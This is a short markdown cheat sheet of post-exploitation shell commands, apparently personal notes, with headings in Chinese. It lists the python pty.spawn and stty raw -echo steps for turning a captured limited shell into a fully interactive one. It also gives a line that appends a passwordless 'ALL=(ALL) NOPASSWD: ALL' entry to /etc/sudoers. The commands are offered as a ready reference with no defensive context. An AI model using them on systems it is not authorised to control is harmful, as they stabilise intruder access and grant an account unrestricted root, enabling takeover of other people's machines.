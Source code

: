 # usu_command


## 完整shell
python -c "import pty;pty.spawn('/bin/bash')"
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
//$ export TERM=xterm-256color

## 加入到sudoer
echo "user ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers